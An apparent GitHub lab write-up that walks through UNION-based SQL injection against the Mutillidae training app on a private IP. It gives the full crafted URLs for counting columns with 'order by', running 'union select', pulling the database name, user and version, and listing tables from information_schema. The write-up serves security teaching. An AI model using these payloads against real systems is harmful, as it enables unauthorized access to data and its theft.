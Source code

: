 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=sivaram%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![11](https://github.com/sivaram-R/sqlinjection/assets/121165794/aa1be39c-051d-48ba-8520-8154a4bc5d28)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![10](https://github.com/sivaram-R/sqlinjection/assets/121165794/dcffabe8-94f4-47dd-a206-42aa94b7c4e6)


When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2023-06-10 224928](https://github.com/praveenst13/sqlinjection/assets/118787793/86073e2f-937b-47a4-9b9d-c0c2863b2a7c)


 As it is having 5 columns the query worked fine and it provides the correct result

![13](https://github.com/sivaram-R/sqlinjection/assets/121165794/0f09907c-7348-4fb1-b0cc-49ed02d0682e)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![14](https://github.com/sivaram-R/sqlinjection/assets/121165794/786497cf-b771-4af1-9115-de4ca3517600)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![15](https://github.com/sivaram-R/sqlinjection/assets/121165794/8cff5bb3-55ba-4c66-84ea-f548ff22b730)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![16](https://github.com/sivaram-R/sqlinjection/assets/121165794/790f0c4b-7812-4fb2-b1a4-33223415edd2)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.
![17](https://github.com/sivaram-R/sqlinjection/assets/121165794/91618169-90e2-464c-9136-c12bfed688e8)

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![18](https://github.com/sivaram-R/sqlinjection/assets/121165794/5f6063fc-ac99-4078-a81e-6dca2a71f34b)

![19](https://github.com/sivaram-R/sqlinjection/assets/121165794/58a4158f-904c-437d-a911-8c5a10853db9)
